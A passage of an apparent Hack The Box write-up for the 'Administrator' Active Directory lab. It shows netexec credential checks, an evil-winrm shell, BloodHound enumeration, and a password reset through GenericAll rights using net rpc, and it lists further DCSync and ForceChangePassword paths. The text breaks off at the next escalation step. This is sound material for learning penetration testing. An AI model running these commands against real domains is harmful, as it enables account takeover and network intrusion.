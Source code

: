 **Domain Information:**
- Domain: `administrator.htb`
- Hostname: `DC`

### Initial Credential Validation

```bash
# Validate SMB access
netexec smb 10.10.11.42 -u olivia -p ichliebedich

# Validate WinRM access
netexec winrm 10.10.11.42 -u olivia -p ichliebedich
```

✅ Both SMB and WinRM access confirmed for olivia.

## Attack Chain

### 1. Shell as Olivia

```bash
evil-winrm -i administrator.htb -u olivia -p ichliebedich
```

### 2. Bloodhound Enumeration

```bash
# Collect Bloodhound data
bloodhound-python -d administrator.htb -c all -u olivia -p ichliebedich -ns 10.10.11.42 --zip
```

**Key Findings:**
- Olivia has `GenericAll` over michael
- michael has `ForceChangePassword` over benjamin
- benjamin is in `Share Moderators` group (FTP access)
- emily has `GenericWrite` over ethan
- ethan has `DCSync` privileges

### 3. Privilege Escalation: Olivia → Michael

**Attack:** Password Reset via GenericAll

```bash
# Reset michael's password
net rpc password "michael" "0xdf0xdf." -U "administrator.htb"/"olivia"%"ichliebedich" -S 10.10.11.42

# Verify access
netexec winrm 10.10.11.42 -u michael -p '0xdf0xdf.'
```

### 4. Privilege Escalation: Michael → Benjamin

**Attack:** Password Reset via ForceChangePassword
